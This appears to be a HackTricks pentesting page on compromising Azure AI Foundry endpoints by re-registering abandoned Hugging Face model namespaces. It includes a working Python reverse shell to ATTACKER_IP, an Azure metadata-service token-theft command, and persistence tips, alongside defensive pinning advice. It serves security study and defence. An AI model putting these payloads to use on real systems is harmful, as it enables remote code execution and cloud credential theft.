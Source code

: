 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Azure AI Foundry Model Catalog includes many Hugging Face (HF) models for one-click deployment.
- HF model identifiers are Author/ModelName. If an HF author/org is deleted, anyone can re-register that author and publish a model with the same ModelName at the legacy path.
- Pipelines and catalogs that pull by name only (no commit pinning/integrity) will resolve to attacker-controlled repos. When Azure deploys the model, loader code can execute in the endpoint environment, granting RCE with that endpoint’s permissions.

Common HF takeover cases:
- Ownership deletion: Old path 404 until takeover.
- Ownership transfer: Old path 307 to the new author while old author exists. If the old author is later deleted and re-registered, the redirect breaks and the attacker’s repo serves at the legacy path.

## Identifying Reusable Namespaces (HF)

```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```

## End-to-end Attack Flow against Azure AI Foundry

1) In the Model Catalog, find HF models whose original authors were deleted or transferred (old author removed) on HF.
2) Re-register the abandoned author on HF and recreate the ModelName.
3) Publish a malicious repo with loader code that executes on import or requires trust_remote_code=True.
4) Deploy the legacy Author/ModelName from Azure AI Foundry. The platform pulls the attacker repo; loader executes inside the Azure endpoint container/VM, yielding RCE with endpoint permissions.

Example payload fragment executed on import (for demonstration only):

```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
    s = socket.socket(); s.connect((host, port))
    for fd in (0,1,2):
        try:
            os.dup2(s.fileno(), fd)
        except Exception:
            pass
    subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
    threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```

Notes
- AI Foundry deployments that integrate HF typically clone and import repo modules referenced by the model’s config (e.g., auto_map), which can trigger code execution. Some paths require trust_remote_code=True.
- Access usually matches the endpoint’s managed identity/service principal permissions. Treat it as an initial access foothold for data access and lateral movement within Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumerate environment variables and MSI endpoints for tokens:

```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```

- Check mounted storage, model artifacts, and reachable Azure services with the acquired token.
- Consider persistence by leaving poisoned model artifacts if the platform re-pulls from HF.

## Defensive Guidance for Azure AI Foundry Users

- Pin models by commit when loading from HF:

```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```

- Mirror vetted HF models to a trusted internal registry and deploy from there.
- Continuously scan codebases and defaults/docstrings/notebooks for hard-coded Author/ModelName that are deleted/transferred; update or pin.
- Validate author existence and model provenance prior to deployment.

## Recognition Heuristics (HTTP)

- Deleted author: author page 404; legacy model path 404 until takeover.
- Transferred model: legacy path 307 to new author while old author exists; if old author later deleted and re-registered, legacy path serves attacker content.

```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```

## Cross-References

- See broader methodology and supply-chain notes:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## References

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}